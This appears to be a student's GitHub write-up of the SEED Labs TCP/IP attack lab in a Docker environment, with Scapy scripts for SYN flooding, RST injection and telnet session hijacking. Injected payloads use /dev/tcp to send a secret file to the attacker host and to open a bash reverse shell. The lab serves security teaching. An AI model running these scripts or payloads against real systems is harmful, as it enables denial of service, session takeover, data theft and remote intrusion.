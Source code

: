# System-And-Network-Security

**Comprehensive Documentation: TCP/IP Attack Lab (Task 1–4)**

---

## 📑 Lab Overview

This documentation covers the execution and outcomes of all four TCP/IP attacks from the SEED Labs exercise:

* **Task 1:** TCP SYN Flooding Attack
* **Task 2:** TCP RST Injection Attack
* **Task 3:** TCP Session Hijacking
* **Task 4:** Reverse Shell via Hijacked Session

Screenshots and terminal outputs were recorded to validate each stage.

---

## 🚀 Lab Setup

* **Environment:** Docker Compose
* **Victim Server IP:** `10.9.0.5`
* **Client IP:** `10.9.0.6`
* **Attacker IP:** `10.9.0.1`
* **Telnet Port:** `23`

Containers were started with:

```bash
docker compose build
docker compose up -d
```

---

## 🔪 Task 1: TCP SYN Flooding Attack

### Python Script (synflood.py)

```python
from scapy.all import *
from ipaddress import IPv4Address
from random import getrandbits

ip = IP(dst="10.9.0.5")
tcp = TCP(dport=23, flags="S")
pkt = ip/tcp

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32)))
    pkt[TCP].sport = getrandbits(16)
    pkt[TCP].seq = getrandbits(32)
    send(pkt, verbose=0)
```

### C Version (synflood.c)

Compiled and run:

```bash
gcc -o synflood synflood.c
./synflood 10.9.0.5 23
```

### Verification:

```bash
netstat -tna | grep SYN_RECV | wc -l
```

**Output:** 129 SYN\_RECV connections confirmed

### SYN Cookie Defense:

```bash
sysctl -w net.ipv4.tcp_syncookies=1
```

Still 129 SYN\_RECV entries → system under pressure.

**Screenshot:** \[Included: SYN\_RECV count & code execution]

---

## 🚧 Task 2: TCP RST Attack

### Objective:

Kill an existing telnet session using a forged RST packet.

### Script (rst\_attack.py):

```python
from scapy.all import *

ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=40328, dport=23, flags="R", seq=93)
pkt = ip/tcp
send(pkt, verbose=1)
```

### Result:

Session terminated. Verified by client message: `Connection closed by foreign host.`

**Screenshot:** \[Included: packet capture and terminal result]

---

## 🪧 Task 3: TCP Session Hijacking

### Objective:

Inject malicious commands into an existing telnet session.

### Observed TCP Parameters (Wireshark):

* SEQ: `2644729563`
* ACK: `644915621`
* SrcPort: `49512`

### Script (t3\_hijack.py):

```python
from scapy.all import *

ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=49512, dport=23, flags="PA", seq=2644729563, ack=644915621)
data = "cat secret > /dev/tcp/10.9.0.1/9090\n"
pkt = ip/tcp/data
send(pkt, verbose=1)
```

### Result:

Attacker’s netcat listener received content of `secret` file.

**Screenshot:** \[Included: Wireshark capture and terminal payload send]

---

## 🔧 Task 4: Reverse Shell via Hijack

### Objective:

Launch a reverse shell from the victim to the attacker.

### Listener:

```bash
nc -lnvp 9090
```

### Injected Payload:

```python
from scapy.all import *

ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=49512, dport=23, flags="PA", seq=2644729563, ack=644915621)
data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\n"
pkt = ip/tcp/data
send(pkt, verbose=1)
```

### Result:

Shell access gained from attacker terminal. Commands like `whoami`, `hostname` worked as expected.

**Screenshot:** \[Included: netcat connection and shell confirmation]

---

## 📊 Summary

| Task   | Objective           | Outcome                           |
| ------ | ------------------- | --------------------------------- |
| Task 1 | DoS via SYN flood   | Queue filled, connections delayed |
| Task 2 | Kill telnet session | Session reset successfully        |
| Task 3 | Inject command      | Secret file content exfiltrated   |
| Task 4 | Persistent access   | Reverse shell obtained            |

All tasks were successfully executed and verified with screenshots and terminal outputs.
